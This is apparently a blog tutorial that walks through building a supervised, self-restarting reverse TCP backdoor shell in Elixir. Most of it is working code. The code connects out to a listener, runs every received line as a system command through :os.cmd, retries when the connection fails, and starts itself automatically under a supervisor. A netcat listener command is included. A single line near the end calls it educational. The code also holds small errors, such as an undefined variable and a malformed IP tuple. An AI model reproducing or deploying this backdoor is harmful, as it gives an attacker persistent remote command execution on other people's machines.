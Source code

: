 Elixir and Erlang seem to be very good fits for a reverse tcp backdoor shell. Afterall the network can disconnect, the target can shutdown their machine, etc. Things can and will go wrong! The Beam offers us great patterns and strategies to deal with these failures.

In this article we will build a supervised fault tolerant reverse tcp shell that can handle failures from both the client side as well as the server side. Let's get started. First run:

```bash
mix new backdoor --sup
```

This will create our new project. We will be using :gen_tcp from Erlang for all the TCP operations. This library uses the OS tcp libraries to make tcp sockets that we can read and write to like files. Open up the Backdoor module and type this in:

```elixir
defmodule Backdoor do
  @moduledoc """
  Main TCP process loops and handlers
  """
  require Logger

  # make tcp connection to host on port
  def connect(host, port) do
    Logger.info "Atempting to connect to #{inspect(host)} on port #{port}"
    case :gen_tcp.connect(host, port,
      [:binary, packet: :line, active: false, reuseaddr: true]) do
        {:ok, socket} ->
          # if connected send a prompt and start serve loop
          ''
          |> add_prompt()
          |> write_line(socket)
          Task.start_link(fn -> serve(socket) end)
        {:error, reason} ->
          # if connection failed wait and try again in 5 seconds
          Logger.info(inspect(reason))
          Logger.info "Could not connect to #{inspect(host)} on port #{port}"
          Process.sleep(5000)
          connect(master, port)
      end
  end

  # server loop
  defp serve(socket) do
    # read a line
    line =
      read_line(socket)
      |> IO.chardata_to_string()
    command = remove_newline(line)
    case command do
      "exit" ->
        # if command is exit then close the socket
        # This is not really needed but is an example of matching custom commands
        :ok = :gen_tcp.close(socket)
      com ->
        # anything else is treated as a system command and is piped to :os.cmd/1
        String.to_charlist(com)
        |> :os.cmd()
        |> add_prompt()
        |> write_line(socket)
        # recursive loop
        serve(socket)
    end
  end

  # These are helper functions for reading lines, formatting prompts, etc
  defp read_line(socket) do
    case :gen_tcp.recv(socket, 0) do
      {:ok, data} ->
        data
      {:error, reason} ->
        Logger.info(inspect(reason))
        Logger.info "Could not receive"
    end
  end

  defp write_line(line, socket) do
    :gen_tcp.send(socket, line)
  end
    def remove_newline(line) do
    line
    |> String.replace("\r", "")
    |> String.replace("\n", "")
  end

  def add_prompt(charlist) do
    charlist ++ '\n\r =>>$'
  end

  def add_prompt_string(string) do
    string <> "\n\r =>>$"
  end
end
```

Great! we can already use this in iex:

```bash
iex -S mix
iex(1)> Backdoor.connect({127, 0, 0, 1}, 5555)
```

Hmm... that was a weird way to specify localhost, but that is Erlang for you. In another terminal we can run netcat:

```bash
nc -l localhost 555
=>>$ ls

Documents
Downloads
...
```

Alright we got our command prompt and we can run system commands. But we can't survive any failures... So we need to get supervised! Open up the Application module and add this:

```elixir
defmodule Backdoor.Application do
  use Application

  @impl true
  def start(_type, _args) do
    children = [
     # Add this map
     %{
        id: ReverseTCP,
        start: {Backdoor, :connect, [{127, 0, 0 1}, 555]}
      },
    ]

    opts = [strategy: :one_for_one, name: Backdoor.Supervisor]
    Supervisor.start_link(children, opts)
  end
end
```

Now we are supervising the backdoor process so if something goes wrong it will restart itself! We don't need to call the function from iex it will just get called on startup. You can try it by stopping the process in observer or hitting Ctrl+C from netcat.

Please remember this code is just for educational purposes. You can find all the code and more [here](https://github.com/karangejo/elixir-backdoor).
